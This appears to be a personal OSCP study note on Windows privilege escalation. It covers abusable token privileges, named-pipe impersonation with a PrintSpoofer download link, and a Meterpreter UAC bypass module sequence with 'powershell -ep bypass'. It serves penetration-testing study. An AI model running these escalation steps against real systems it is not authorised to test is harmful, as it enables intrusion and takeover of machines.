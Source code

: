 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/i. Windows Privilege Escalation/9. Using Exploits/"}
---
```


- Another way of performing privilege escalations is by exploiting vulnerabilities
- There are several kinds:
	- Application running by a higher privileged user
	- Windows Kernel
		- Can easily crash the system
	- Windows Privileges
		- Users with SeImpersonatePrivilege are assigned specific privileges by leveraging a token in a specific context, which can be abused.
		- This most often occurs when breaching the account of a service such as a web server, and not standard users, which may run as: _LocalService_, _LocalSystem_, _NetworkService_, or _ApplicationPoolIdentity_.
		- Others privileges that can be abused include: SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug.

### Named Pipes:
- A method for two unrelated processes to share and transfer data with each other.
- A named pipe server creates a named pipe to which a named pipe client can connect. The server and client does not have to reside on the same system.
- Once a client connects to a named pipe, the server can leverage _SeImpersonatePrivilege_ to impersonate this client after capturing the authentication from the connection process.
- To abuse it we need: A privileged process to connect to a controlled named pipe with _SeImpersonatePrivilege_.
- Example is "PrintSpoofer" which makes NT AUTHORITY connect to a controlled named pipe for command execution.
- Printspoofer: https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

To exploit:
1. Make sure _SeImpersonatePrivilege_ is turned on for your current user with:
```
whoami /priv
```
2. Get the script from your computer.
3. Execute it and win!

Other exploits good to know:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

-------
### Meterpreter UAC bypass:
- Review the integrity level of current process:
```powershell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- In meterpreter:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

